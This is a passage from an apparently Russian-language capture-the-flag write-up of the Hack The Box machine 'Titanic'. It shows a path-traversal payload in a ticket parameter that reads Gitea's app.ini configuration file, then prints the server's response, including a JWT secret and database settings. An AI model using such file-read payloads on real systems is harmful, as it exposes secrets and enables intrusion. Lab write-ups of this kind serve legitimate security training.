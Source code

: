 
# Эксплуатация, user flag

Мы узнали имена пользователей и теперь можно сделать прикол и получить user flag так:

![[titanic3.png]]

Но кроме флага это нам ничего не дает, а нам надо двигаться дальше, поэтому лучше подставьте такой payload в ticket:

**/home/developer/gitea/data/gitea/conf/app.ini**

И получаем ответ:

```output
HTTP/1.1 200 OK
Date: Mon, 30 Jun 2025 14:48:22 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="/home/developer/gitea/data/gitea/conf/app.ini"
Content-Type: application/octet-stream
Content-Length: 2004
Last-Modified: Fri, 02 Aug 2024 10:42:14 GMT
Cache-Control: no-cache
ETag: "1722595334.8970726-2004-2176520380"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

```